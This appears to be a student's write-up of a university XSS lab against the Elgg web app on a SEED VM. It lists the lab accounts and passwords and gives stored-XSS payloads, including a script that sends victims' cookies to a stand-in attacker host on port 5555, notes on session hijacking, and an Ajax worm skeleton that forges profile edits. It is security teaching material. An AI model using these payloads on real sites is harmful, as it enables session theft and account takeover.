 # CSUS CSC154: XSS Lab  

## Goal  
To fully demonstrate what attackers can do by exploiting XSS vulnerabilities.


## Lab Environment  
In this lab, we need three things, which are already installed in the provided `SEEDUbuntu12.04` VM image: (1) the Firefox web browser, (2) the Apache web server, and (3) the Elgg web application. For the browser, we need to use the LiveHTTPHeaders extension for Firefox to inspect the HTTP requests and responses. The pre-built Ubuntu VM image provided to you has already installed the Firefox web browser with the required extensions.  

The user accounts for Elgg are found below.  

| User          | UserName      | Password     |
| ------------- |:-------------:| ------------:|
| Admin         | admin         | seedelgg     |
| Alice         | alice         | seedalice    |
| Boby          | boby          | seedboby     |
| Charlie       | charlie       | seedcharlie  |
| Samy          | samy          | seedsamy     |



## Lab Tasks  

### Task 1: Posting a Malicious Message to Display an Alert Window  
The objective of this task is to embed a JavaScript program in our Elgg profile, such that when another
user views our profile, the JavaScript program will be executed and an alert window will be displayed. The
following JavaScript program will display an alert window:  

```javascript
<script>alert('xss');</script>
```

To accomplish this, we simply login as Samy, and navigate to edit our profile. As can be seen in Figure 1 below, we've placed our Java Script payload in the "Brief Descriptoin" portion of Samy's profile.  
![1_1_samy](./writeup/images/1_1_samy.png)  
**Figure 1:** Java Script alert window payload to demonstrate XSS.  


### Task 2: Posting a Malicious Message to Display Cookies
The objective of this task is to embed a JavaScript program in our Elgg profile, such that when another user views our profile, the user’s cookies will be displayed in the alert window. This can be done by adding some additional code to the JavaScript program in the previous task:  
```javascript
<script>alert(document.cookie);</script>
```


### Task 3: Stealing Cookies from the Victim’s Machine  
In the previous task, the malicious JavaScript code written by the attacker can print out the user’s cookies, but only the user can see the cookies, not the attacker. In this task, the attacker wants the JavaScript code to send the cookies to himself/herself. To achieve this, the malicious JavaScript code needs to send an HTTP request to the attacker, with the cookies appended to the request. We can do this by having the malicious JavaScript insert an `<img>` tag with its `src` attribute set to the attacker's machine. When the JavaScript inserts the img tag, the browser tries to load the image from the URL in the src field; this results in an HTTP GET request sent to the attacker’s machine. The JavaScript given below sends the cookies to the port 5555 of the attacker’s machine, where the attacker has a TCP server listening to the same port. The server can print out whatever it receives. The TCP server program is available from the lab's web site.  
```javascript
<script>
document.write('<img src=http://attacker_IP_address:5555?c='+ escape(document.cookie) + '>');
</script>
```


### Task 4: Session Hijacking using the Stolen Cookies  
After stealing the victim’s cookies, the attacker can do whatever the victim can do to the Elgg web server, including adding and deleting friends on behalf of the victim, deleting the victim’s post, etc. Essentially, the attacker has hijacked the victim’s session. In this task, we will launch this session hijacking attack, and write a program to add a friend on behalf of the victim. The attack should be launched from another virtual machine. To add a friend for the victim, we should first find out how a legitimate user adds a friend in Elgg. More specifically, we need to figure out what are sent to the server when a user adds a friend. Firefox's LiveHTTPHeaders extension can help us; it can display the contents of any HTTP request message sent from the browser. From the contents, we can identify all the parameters in the request. A screen shot of LiveHTTPHeaders is given in Figure Once we have understood what the HTTP request for adding friends look like, we can write a Java program to send out the same HTTP request. The Elgg server cannot distinguish whether the request is sent out by the user’s browser or by the attacker’s Java program. As long as we set all the parameters correctly, and the session cookie is attached, the server will accept and process the project-posting HTTP request. To simplify your task, we provide you with a sample Java program that does the following:

1. Open a connection to web server.  
2. Set the necessary HTTP header information.  
3. Send the request to web server.  
4. Get the response from web server.  

**Note 1:** Elgg uses two parameters elgg ts and elgg token as a countermeasure to defeat another related attack (Cross Site Request Forgery). Make sure that you set these parameters correctly for your attack to succeed.

**Note 2:** The attack should be launched from a different virtual machine; you should make the relevant changes to the attacker VM's `/etc/hosts` file, so your Elgg server's IP address points to the victim's machine's IP address, instead of the localhost (in our default setting).

### Task 5: Writing an XSS Worm  
In this and next task, we will perform an attack similar to what Samy did to MySpace in 2005 (i.e. the Samy Worm). First, we will write an XSS worm that does not self-propagate; in the next task, we will make it self-propagating. From the previous task, we have learned how to steal the cookies from the victim and then forge—from the attacker’s machine—HTTP requests using the stolen cookies. In this task, we need to write a malicious JavaScript program that forges HTTP requests directly from the victim’s browser, without the intervention of the attacker. The objective of the attack is to modify the victim’s profile and add Samy as a friend to the victim. We have already created a user called Samy on the Elgg server (the user name is samy).  

**Guideline 1:** Using Ajax. The malicious JavaScript should be able to send an HTTP request to the Elgg server, asking it to modify the current user’s profile. There are two common types of HTTP requests, one is HTTP GET request, and the other is HTTP POST request. These two types of HTTP requests differ in how they send the contents of the request to the server. In Elgg, the request for modifying profile uses HTTP POST request. We can use the XMLHttpRequest object to send HTTP GET and POST requests to web applications.

To learn how to use XMLHttpRequest, you can study these cited documents [1, 2]. If you are not familiar with JavaScript programming, we suggest that you read [3] to learn some basic JavaScript functions. You will have to use some of these functions.

**Guideline 2:** Code Skeleton. We provide a skeleton of the JavaScript code that you need to write. You need to fill in all the necessary details. When you store the final JavaScript code as a worm in the standalone file, you need to remove all the comments, extra space, new-line characters, `<script>` and `</script>`.

```javascript
<script>
var Ajax=null;
// Construct the header information for the HTTP request
Ajax=new XMLHttpRequest();
Ajax.open("POST","http://www.xsslabelgg.com/action/profile/edit",true);
Ajax.setRequestHeader("Host","www.xsslabelgg.com");
Ajax.setRequestHeader("Keep-Alive","300");
Ajax.setRequestHeader("Connection","keep-alive");
Ajax.setRequestHeader("Cookie",document.cookie);
Ajax.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
// Construct the content. The format of the content can be learned
// from LiveHTTPHeaders.
var content="name=..&description=...&guid="; // You need to fill in the
details.
// Send the HTTP POST request.
Ajax.send(content);
</script>
```



### Task 6: Writing a Self-Propagating XSS Worm  

### Task 7: Countermeasures  















Login as samy

email: samy
password: seedsamy

place xss code in profile

```html
<script>alert('xss');</script>
```


do the cookie thing



login as charlie and watch the http headers for adding someone as a friend.

do that shit in javascript and then embed the code in someone elses profile after it done.
